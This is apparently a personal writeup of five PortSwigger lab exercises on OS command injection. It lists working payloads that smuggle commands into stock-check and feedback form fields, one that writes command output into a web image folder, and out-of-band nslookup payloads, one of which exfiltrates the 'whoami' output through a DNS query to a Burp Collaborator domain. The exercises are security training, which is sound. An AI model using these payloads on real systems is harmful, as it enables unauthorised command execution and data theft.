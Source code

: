 ```yaml
---
title: OS command injection - PortSwigger
date: 2022-7-1 00:00:00 +/-TTTT
categories: [PortSwigger]
tags: [PortSwigger, writeup, penetration testing, OS command injection]     
---
```








### Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)
- [Blind OS command injection with out-of-band data exfiltration](#blind-os-command-injection-with-out-of-band-data-exfiltration)

<br /><br />

------




### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.

- append `|whoami` or `;whoami` to the `storeId` parameter 

- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)

- check the name in the response

  



<img src="/assets/img/portswigger/command_injection/1_1.png" alt="os command injection" style="zoom:80%;" />



<br /><br />

------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request



<br />

<br />

------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](/assets/img/portswigger/command_injection/2_1.png)



<br /><br />

------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src="/assets/img/portswigger/command_injection/3_1.png" alt="os command injection" style="zoom:80%;" />

<br />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src="/assets/img/portswigger/command_injection/3_2.png" alt="os command injection" style="zoom:80%;" />

<br /><br />

------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src="/assets/img/portswigger/command_injection/4_1.png" alt="os command injection" style="zoom:80%;" />







------



